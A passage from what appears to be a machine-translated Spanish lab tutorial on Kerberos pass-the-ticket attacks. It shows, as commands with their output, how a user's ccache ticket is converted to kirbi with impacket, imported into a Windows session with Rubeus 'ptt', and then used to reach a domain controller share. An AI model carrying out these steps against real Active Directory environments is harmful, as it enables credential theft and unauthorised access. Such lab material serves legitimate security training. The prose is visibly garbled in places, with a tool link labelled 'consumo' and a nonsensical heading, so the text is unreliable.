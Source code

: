 
# **Misceláneas**

Si queremos usar un`ccache file`en Windows o en un`kirbi file`En una máquina de Linux, podemos usar[consumo](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py)para convertirlos. Para usarlo, especificamos el archivo que queremos convertir y el nombre de archivo de salida. Convirtamos el archivo CCACHE de Julio en Kirbi.

### **Convertidor de boletos de impense**

Pase el boleto (PTT) de Linux

```
xnoxos@htb[/htb]$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbiImpacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done

```

Podemos hacer la operación inversa seleccionando primero un`.kirbi file`. Usemos el`.kirbi`Archivo en Windows.

### **Importar boleto convertido en la sesión de Windows con Rubeus**

Pase el boleto (PTT) de Linux

```
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2

[*] Action: Import Ticket
[+] Ticket successfully imported!
C:\htb> klist

Current LogonId is 0:0x31adf02

Cached Tickets: (1)

#0>     Client: julio @ INLANEFREIGHT.HTB
        Server: krbtgt/INLANEFREIGHT.HTB @ INLANEFREIGHT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0xa1c20000 -> reserved forwarded invalid renewable initial 0x20000
        Start Time: 10/10/2022 5:46:02 (local)
        End Time:   10/10/2022 15:46:02 (local)
        Renew Time: 10/11/2022 5:46:02 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

C:\htb>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\dc01\julio
```